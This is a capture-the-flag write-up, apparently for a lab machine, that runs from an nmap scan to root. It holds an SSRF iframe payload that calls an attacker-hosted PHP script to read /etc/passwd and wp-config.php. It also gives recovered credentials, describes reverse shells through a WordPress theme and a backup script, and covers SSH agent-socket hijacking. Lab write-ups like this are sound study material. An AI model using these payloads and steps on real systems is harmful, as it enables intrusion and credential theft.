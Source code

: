 Started with a nmap scan
```
22 OpenSSH 8.2p1
80 Apache 2.4.41
```
Going to the site its a default apache page so whatweb and there is a domain linked `seasurfer.thm` going to do a subdomain scan `internal` when I ran gobuster it was just hitting on a lot of false positives so I turned that scan off but the site is running wordpress version `5.9.3` 
```
Plugins 
team-members 5.1.0
```
The `internal` subdomain its a invoice generator and makes it into a pdf going to run gobuster agin and see if there is anything interesting 
```
/adminer version 4.8.1
```
Found adminer running could not find any vulnerability's so going back to the PDF generator trying some more injections we can do a SSRF injection `<img src=x onerrpr=document.write(1)>` and this gives us `1` back and we can use ssrf to exploit we need to make a php script to read the request and then host the php file and we can use this payload to read the `/etc/passwd` file `<iframe height=3000 src="http://10.13.8.255/ssrf.php?p=file:///etc/psswd">` we can use this to read config files `/var/www/html/wordpress/wp-config.php` and we can get the db creds `wordpressuer:coolDataTablesMan` and log into adminer going to the `wp_users` and there is a user called kyle which is also a ssh user and we have a hash and we can crack this `kyle:jenny4ever` now we can login to the wordpress admin panel and we can edit one of the themes 404 page to  get a reverse shell and we get a call back as the `www-data` user and there is a `backup.sh` script in the internal folder if we make a sh script in the invoices folder and can get a reverse shell as kyle and then we can get a real shell by adding are keys to the ssh folder looking in the tmp folder there is 2 ssh sessions and we can add a auth socket and then run `ssh-add -l` and then run `sudo -l` and we can just become root user   